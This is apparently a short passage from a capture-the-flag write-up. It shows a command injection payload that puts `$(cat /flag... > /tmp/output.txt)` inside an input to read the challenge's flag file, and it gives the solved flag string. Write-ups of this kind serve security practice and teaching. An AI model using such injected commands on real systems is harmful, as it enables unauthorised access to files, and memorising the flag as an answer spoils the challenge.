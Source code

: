 input = `http://hostname:80/`

One example

![testing](./images/testing.png)

## Obtaining the Flag

Now just read the file using `krabby patty $(cat /flag53958e73c5ba4a66 > /tmp/output.txt)`

![Flag](./images/flag.png) 

Flag: **UMASS{W3lC0m3_t0_Th3_FuTur3_Kr4bS_c28e1089b2}**

Thank You

